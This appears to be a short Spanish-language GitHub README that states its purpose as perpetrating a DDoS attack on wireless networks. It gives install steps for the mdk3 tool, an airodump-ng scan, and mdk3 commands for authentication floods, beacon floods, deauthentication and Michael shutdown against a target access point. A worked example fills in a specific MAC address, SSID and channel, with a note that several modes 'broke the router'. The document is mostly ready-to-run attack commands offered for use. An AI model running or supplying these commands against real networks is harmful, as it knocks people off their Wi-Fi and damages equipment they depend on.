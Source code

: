 # KaliLinux-MKD3-DDOS
Contiene las instrucciones necesarias para perpetrar un ataque DDOS


## Instalación de MDK3

```bash
git clone https://github.com/charlesxsh/mdk3-master.git
cd mdk3-master
make
make install
```

## Ataque de destruccion

Monitorear Redes:

```bash
airodump-ng wlan0
#ctrl + c
```

Ataque:

```bash
sudo mdk3 wlan0 a -a MAC -m 
sudo mdk3 wlan0 b -a MAC -n SSID -h -c CANAL 
sudo mdk3 wlan0 d -a MAC -c CANAL
sudo mdk3 wlan0 m -a MAC  
```
>NOTA: b, d, m; rompió el enrutador 





## Ejemplo de Ataque

Monitorear Redes:

```bash
airodump-ng wlan0
#ctrl + c
```

Ataque:

```bash
sudo mdk3 wlan0 a -a D8:32:14:D2:51:70 -m 
sudo mdk3 wlan0 b -a D8:32:14:D2:51:70 -n CARM -h -c 11
sudo mdk3 wlan0 d -a D8:32:14:D2:51:70 -c 11
sudo mdk3 wlan0 m -t D8:32:14:D2:51:70 

